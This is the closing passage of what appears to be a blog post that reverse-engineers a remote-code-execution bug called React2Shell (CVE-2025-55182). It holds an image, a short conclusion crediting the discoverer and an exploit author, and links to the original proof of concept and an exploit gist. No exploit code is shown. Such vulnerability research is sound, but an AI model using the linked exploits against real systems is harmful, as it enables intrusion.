

## Conclusion

Reversing this bug was a truly fascinating experience. I learned a lot while exploring its depths.  It was both challenging and rewarding to piece together each stage of the blog. Huge thanks to the original bug discoverer, [Lachlan Davidson](https://github.com/lachlan2k) for this mindblowing bug, and to [Maple](https://github.com/maple3142) for the exploit that inspired this deep dive :)

## References

[Original POC](https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc)  
[Maple's Exploit](https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3) 

